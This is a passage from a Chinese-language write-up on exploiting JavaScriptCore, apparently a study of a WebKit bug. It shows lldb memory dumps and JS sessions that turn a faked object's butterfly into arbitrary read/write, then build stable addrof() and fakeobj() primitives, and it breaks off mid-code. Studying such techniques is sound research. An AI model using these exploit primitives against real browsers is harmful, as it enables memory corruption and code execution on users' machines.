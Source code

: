 ```
&gt;&gt;&gt; describe(hax)
Object: 0x108ac83b0 with butterfly 0x108ab62d0 (Structure 0x108a4a3e0:[Array, `{`a:100, p189:101`}`, ArrayWithDouble, Proto:0x108ac80a0, Leaf]), StructureID: 512

#查看hax的butterfly，其实也就是controller的内存
(lldb) x/2gx 0x108ab62d0
0x108ab62d0: 0x0108210700000337 0x0000616161616161
(lldb)
```

这样我们就间接地控制了`controller`的butterfly，而且可以指向任意地址。然后通过访问`controller`的属性，我们其实已经可以实现任意地址读写了。比如访问`controller.a`其实就是读取controller的butterfly偏移为-0x10的值。现在来尝试一下读`hax`的内存：

```
&gt;&gt;&gt; hax[1] = i2f(f2i(addrof(hax))+0x10)
2.193894026e-314
&gt;&gt;&gt; hex(f2i(controller.a))
0x107210700000200
&gt;&gt;&gt; hax[1] = i2f(f2i(addrof(hax))+0x10+8)
2.19389403e-314
&gt;&gt;&gt; hex(f2i(controller.a))
0x7ff8000000000000
&gt;&gt;&gt; describe(hax)
Object: 0x108ac83b0 with butterfly 0x108ab62d0 (Structure 0x108a4a3e0:[Array, `{`a:100, p189:101`}`, ArrayWithDouble, Proto:0x108ac80a0, Leaf]), StructureID: 512

(lldb) x/2gx 0x108ac83b0
0x108ac83b0: 0x0108210700000200 0x0000000108ab62d0
(lldb)
```

可以看到虽然可以读数据了，但是读的数据并不准确，首先第一个读出来的double是解码的，这个不难理解。奇怪的是第二个，`hax`的butterfly明明被指向了`controller`，这是一个合法的对象，应该是读不出来数据的，但是这里居然也能读，虽然数据是错的。既然这个是对象，其实我们完全可以用前面写好的`addrof()`来读：

```
&gt;&gt;&gt; hex(f2i(addrof(controller.a)))
0x108ab62d0
```

这个读出来就是准确的，用同样的方法去读double的话其实还是会有解码的情况：

```
&gt;&gt;&gt; hex(f2i(addrof(controller.a)))
0x107210700000200
```

造成这种情况的原因主要是我前面构造的`addrof()`，它返回的值肯定是JSValue解码后的结果，所以我们可以利用现在掌握的任意读写能力重新构造更稳定可靠的`addrof()`和`fakeobj()`，构造如下：

```
var unboxed = [2.2];
#防止unboxed成为CopyOnWriteArrayWithDouble，多赋值一次可确保ArrayWithDouble。
unboxed[0] = 3.3;
#boxed为ArrayWithContigous
var boxed = [`{``}`];

#使boxed和unboxed的butterfly指向同一片内存，类似ArrayBuffer，我们就可以用不同的形式表示同一块内存。
hax[1] = unboxed;
var shared = controller[1];
hax[1] = boxed;
controller[1] = shared;
#由于赋值过对象，hax的类型会变成ArrayWithContigous，重新设定类型方便之后赋值。
victim.fake_header = header_arrayDouble;

var stage2 = `{`
    addrof : function (obj)`{`
        boxed[0] = obj;
        return f2i(unboxed[0]);
```